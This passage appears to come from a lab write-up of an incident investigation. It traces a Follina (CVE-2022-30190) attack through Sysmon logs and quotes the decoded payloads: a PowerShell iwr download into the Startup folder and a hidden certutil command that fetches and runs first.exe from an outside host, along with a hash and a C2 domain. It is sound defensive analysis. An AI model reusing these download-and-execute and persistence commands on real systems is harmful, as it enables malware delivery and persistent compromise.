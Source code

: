 

## Discovering the Exploit and Payload Execution
Within Sysmon logs, I found an encoded PowerShell command triggered through the MSDT utility:
- C:\Windows\SysWOW64\msdt.exe ms-msdt:/id PCWDiagnostic /skip force ...
Decoding the Base64 payload revealed:
- $app=[Environment]::GetFolderPath('ApplicationData');
- cd "$app\Microsoft\Windows\Start Menu\Programs\Startup";
- iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip;
- Expand-Archive .\update.zip -DestinationPath .;
- rm update.zip;
This confirmed the payload downloaded and extracted additional files into the Startup folder for persistence.
The attack leveraged the MSDT (Follina) vulnerability — CVE-2022-30190 — to execute code remotely without macro execution.

## Persistence and Secondary Payloads
The extracted payload placed a malicious shortcut at:
- C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\update.lnk
On user login, it executed a PowerShell command to download and run first.exe:
- "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe
This file had a SHA256 hash of:
- CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8
Sysmon network events showed that first.exe established outbound connections to:
- resolvecyber.xyz:80
indicating a second-stage Command and Control (C2) channel.

<img src="screenshots/tempest1.png" width="600">
